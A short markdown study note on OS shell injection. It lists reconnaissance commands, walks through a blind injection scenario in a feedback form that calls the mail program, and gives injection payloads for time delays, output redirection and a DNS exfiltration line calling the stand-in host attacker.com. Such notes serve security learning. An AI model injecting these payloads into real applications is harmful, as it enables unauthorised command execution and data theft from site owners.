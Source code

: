 ```yaml
---
date: 2024-10-03
tags: 
      - Cybersecurity
---
```

# Shell Injection
- Shell injection allows attackers to execute operating system (OS) commands on the server running an application.
## Useful Commands
|Purpose of Command|Linux|Windows| 	
|:----:|:----:|:----:| 
|Name of current user|whoami|whoami| 	
|Operating system|uname -a|ver| 	
|Network configuration|ifconfig|ipconfig /all| 	
|Network connections |netstat -an|netstat -an| 	
|Running processes|ps -ef|tasklist| 	

## Blind OS Command Injection Vulnerabilities
- In blind OS command injection, the application does not return the output from the command within its HTTP response.
### Scenario
- Consider a website that lets users submit feedback. The user enters their email address and feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the mail program with the submitted details:
```shell
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```
The output from the mail command (if any) is not returned in the application's responses.

### Techniques to Detect and Exploit Vulnerabilities
#### Using Time Delays: 
- Injecting commands that introduce a delay can help confirm the presence of a vulnerability. For example:
```shell
; sleep 10;
```
#### Exploiting by Redirecting Output: 
- Redirecting the output of a command to a file or another location can help capture the results. For example:
```shell
; ls > /tmp/output.txt;
```
#### Exploiting Out-of-Band Application Security Testing (OAST) Techniques: 
- Using external systems to capture the output of injected commands. For example, using DNS exfiltration:
```shell
; nslookup `whoami`.attacker.com;
```
